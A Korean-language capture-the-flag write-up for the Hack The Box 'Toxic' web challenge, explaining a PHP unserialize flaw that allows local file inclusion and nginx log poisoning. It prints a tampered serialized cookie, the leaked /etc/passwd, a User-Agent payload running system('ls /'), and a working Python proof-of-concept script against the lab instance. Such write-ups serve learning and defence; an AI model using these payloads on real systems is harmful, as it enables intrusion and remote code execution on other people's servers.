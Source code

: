 ```yaml
---
title: '[Hackthebox] Toxic'
author: hoppi
date: 2022-12-28 14:51:00 + 0000
categories: [Web]
tags: [hackthebox, serialization, lfi, log_poisoning, php]
---
```


**키워드: PHP, serialization, LFI, Log Poisoning**  
  
![describtion](../../../assets/img/2022-12-28/2022-12-28-description.png){: w="600" h="300" }  

# 코드 분석
***
`serialize` 함수와 `unserialize` 함수를 사용한다.  
```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);

```
{: file="index.php"}  

<br/>
`PageModel` 클래스는 `__destruct` 함수를 가지고 있는데 객체가 소멸될 때 실행되는 [magic method](https://lornajane.net/posts/2012/9-magic-methods-in-php)이다.  
```php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```
{: file="PageModel.php"}  

<br/>

# 취약점
***

## PHP Serialization Vulnerability & LFI
***
`__destruct` 함수에서 `include` 함수를 사용하고 있기 때문에 오브젝트(인스턴스화된 객체)의 값을 변조시켜서 다른 파일을 읽을 수 있다.  
페이지 내 쿠키 값을 디코딩하면 다음과 같다.  
```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

<br/>
파일 경로를 `/etc/passwd`로 조작해주고 쿠키값을 변조 시키면 다음과 같이 파일을 읽을 수 있다.
```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
{: file="/etc/passwd"}

## Log Poisoning
***
하지만 `flag` 파일이 읽혀지지 않았다. 뒤에 붙는 어떤 문자열이 있을 것이라고 추측됐다. `entrypoint.sh`에서 이 부분을 찾을 수 있었다.
```sh
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

exec "$@"
```
{: file="entrypoint.sh"}  

<br/>
<u>결국에는 파일이름을 확인해야하고 명령어 실행이 필수적이기 때문에</u> `Log Poisoning`을 위한 로그파일이 반드시 존재한다고 생각했다.  

<br/>

# Exploit
***
먼저 도커파일에도 있는 `nginx.conf` 파일을 읽어보면 로그파일에 대한 경로가 나온다.

```
user www;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
    access_log /var/log/nginx/access.log docker;

    charset utf-8;
    keepalive_timeout 20s;
    sendfile on;
    tcp_nopush on;
    client_max_body_size 1M;

    include  /etc/nginx/mime.types;

    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ /index.php?$query_string;
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
}
```
{: file="nginx.conf"}  

<br/>
`/var/log/nginx/access.log` 파일의 내용을 확인해보면 사용자가 조작할 수 있는 부분인 `User-Agent` 값이 나온다.  
```
142.93.37.215 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36" 
142.93.37.215 - 200 "GET /favicon.ico HTTP/1.1" "http://142.93.37.215:32639/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36" 
142.93.37.215 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36" 
142.93.37.215 - 200 "GET /favicon.ico HTTP/1.1" "http://142.93.37.215:32639/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36" 
142.93.37.215 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36"
```
{: file="access.log"}  

<br/>
User-Agent 값을 `<?php system('ls /');?>`로 바꾸고 로그 파일을 읽는 과정에서 `include` 함수로 인해 php 코드가 실행되고 `flag` 파일의 정확한 이름을 볼 수 있을 것이다.  
```python
from requests import get
from base64 import b64encode

info = lambda x: print(f'[+] {x}')
URL = 'http://142.93.37.215:32639'

# file_name = '/flag_fB4Dv'
file_name = '/var/log/nginx/access.log'
cookie = b64encode(f'O:9:"PageModel":1:{% raw %}{{s:4:"file";s:{len(file_name)}:"{file_name}";}}{% endraw %}'.encode('utf-8')).decode('utf-8')

res = get(f'{URL}/', headers={"User-Agent": "<?php system('ls /'); ?>"},
          cookies={'PHPSESSID': f'{cookie}'})
print(res.text)
``` 
{: file="poc.py"}  

<br/>
![ls](../../../assets/img/2022-12-28/2022-12-28-ls.png){: w="600" h="300" }
![flag](../../../assets/img/2022-12-28/2022-12-28-flag.png){: w="600" h="300" }  

<br/>
분명 이렇게 하는게 맞는데 로그파일에 안찍혀서 롸업을 찾아봤는데 풀이가 나랑 똑같아서 엥? 하다가 다시 파일 확인해보니까 찍혀있었다 ㅇㅅㅇ… 이것 때문에 30분 날렸다.  

<br/>
# Reference
***
- [https://velog.io/@woounnan/WEB-PHP-Serialization](https://velog.io/@woounnan/WEB-PHP-Serialization)
